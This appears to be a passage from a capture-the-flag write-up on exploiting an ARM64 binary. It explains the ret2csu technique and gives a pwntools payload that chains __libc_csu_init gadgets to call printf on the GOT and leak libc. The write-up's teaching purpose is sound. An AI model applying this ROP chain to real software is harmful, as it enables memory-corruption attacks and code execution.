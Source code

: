 ### Leak Libc

To leak libc, the goal is to call `printf(printf_got)`, however there were no good gadgets to control `x0` to set it to `printf` entry on the GOT.

Enter ret2csu.

More information about ret2csu can be found [here](https://bananamafia.dev/post/x64-rop-redpwn/)

ret2csu consists of 2 gadgets:
* csu_popper (__libc_csu_init+104)

![](https://i.imgur.com/sKSwwwd.png)

* csu_caller (__libc_csu_init+72)

![](https://i.imgur.com/OcxxOex.png)

The popper gadget lets us control the following registers:
* x19
* x20
* x21
* x22
* x23
* x24
* x29
* x30

And the caller gadget sets registers:
* w0 from w22 (w0 is a 32bit subregister of x0, same for w22)
* x1 from x23
* x2 from x24

The caller gadget also will call what `x21 + (x19*8)` is pointing to.

The hard part of ret2csu is finding a memory address that when derefernced points to the function you want to call. 

Luckily, because we have a stack leak, we can place a function pointer on the in our input and set `x21` to be the stack address of our function pointer and `x19` to be `0` because we just want the address in `x21`

```python
csu_popper = elf.symbols['__libc_csu_init']+104
csu_caller = elf.symbols['__libc_csu_init']+72

leak_libc_payload = b""
leak_libc_payload += b"B"*0x47
leak_libc_payload += p64(csu_popper)
leak_libc_payload += p64(elf.symbols['printf']) # x29 #stack_leak points to this
leak_libc_payload += p64(csu_caller) # x30
leak_libc_payload += p64(0) # x19 needs to be 0
leak_libc_payload += p64(0) # x20 junk
leak_libc_payload += p64(stack_leak) # x21 call*
leak_libc_payload += p64(elf.got['printf'])# x22 x0
leak_libc_payload += b"XXXXXXXX" # x23 x1
leak_libc_payload += p64(0) # x24 x2

io.sendline(leak_libc_payload)
```
